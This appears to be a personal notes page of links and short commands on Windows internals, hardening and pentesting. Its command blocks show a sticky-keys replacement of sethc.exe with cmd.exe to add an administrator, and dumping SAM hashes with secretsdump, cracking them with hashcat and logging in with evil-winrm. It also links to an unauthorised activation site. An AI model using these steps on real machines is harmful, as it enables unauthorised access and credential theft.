

## Documentation

- https://github.com/LazoVelko/Windows-Hacks
- https://github.com/0x6d69636b/windows_hardening
- https://cyber.gouv.fr/publications/mise-en-oeuvre-des-fonctionnalites-de-securite-de-windows-10-reposant-sur-la

### Setup (Host,VM)

- https://massgrave.dev/	# activation keys
- [privacy setup win10/11](./setup.md)
- https://cloud.google.com/blog/topics/threat-intelligence/flare-vm-the-windows-malware?hl=en


### Setup (Windows Server)

- [active_directory](./active_directory)
- https://www.server-world.info/en/note?os=Windows_Server_2022&p=download


### Internals

- [Windows Internals CTF](https://samsclass.info/126/WI2021.htm)
- https://github.com/Faran-17/Windows-Internals
- https://learn.microsoft.com/en-us/windows/win32/secauthn/lsa-authentication
- https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters

### Kernel

- http://ntoskrnl.org/ # description os + win internals
- https://www.vergiliusproject.com/ # documentation de tous les kernel win
- https://empyreal96.github.io/nt-info-depot/index.html
- https://0xpat.github.io/Malware_development_part_1/
- https://itm4n.github.io/




## Challenges

- https://tryhackme.com/module/windows-fundamentals
- https://www.root-me.org/en/Challenges/App-System/

## Outils

- https://ss64.com/ps/
- [powershell cheatsheet](https://gist.github.com/pcgeek86/336e08d1a09e3dd1a8f0a30a9fe61c8a)
- [WinPwn - Local and Domain recon](https://github.com/S3cur3Th1sSh1t/WinPwn)
- https://learn.microsoft.com/fr-fr/sysinternals/downloads
- https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/getting-started-with-windbg/

#### WSL2 - Manage Storage

- https://stephenreescarter.net/how-to-shrink-a-wsl2-virtual-disk/

#### WinAPI

- https://caiorss.github.io/C-Cpp-Notes/WindowsAPI-cpp.html

### Change password (unlocked bios)

- https://maggick.fr/pages/lost-windows-password.html

```powershell
# boot linux
mount /dev/sdax /mnt
cp /mnt/Windows/System32/sethc.exe /mnt/Windows/System32/sethc_old.exe
cp /mnt/Windows/system32/cmd.exe /mnt/Windows/System32/sethc.exe

# boot windows + press shift 5 times
net user new_user new_password /add
net localgroup Administrators new_user /add
net user new_user /delete /f
```

### Crack password (persistent access)

- https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/

```powershell
# /System32/config
reg save HKLM\sam ./sam.save
reg save HKLM\system ./system.save

impacket-secretsdump -sam sam.save -system system.save LOCAL #paste dump hashes in hashes.txt

hashcat -m 1000 hashes.txt wordlist.txt
evil-winrm -i <ip> -u <user> -p <passwd>
evil-winrm -i <ip> -u <user> -H <hash>
```

### Delete file

**Reecriture 5 fois**

```powershell
Sdelete64.exe /p 5 "c:\users\user\file.txt"
```

### Drivers

```powershell
# Activate Kernel Memory Isolation
pnputil /enum-drivers
pnputil /delete-driver oemXX.inf /force
```

## Windows internals

- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Internals%20Part%201_6th%20Edition.pdf
- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Internals%20Part%202_6th%20Edition.pdf
- https://repo.zenk-security.com/Linux%20et%20systemes%20d.exploitations/Windows%20Kernel%20Architecture%20Internals.pdf

### AD - Potato - Local Privesc

See also [active_directory](active_directory)

- https://jlajara.gitlab.io/Potatoes_Windows_Privesc

### EDR

- https://virtualsamuraii.github.io/redteam/anatomie-des-edr-pt-1/

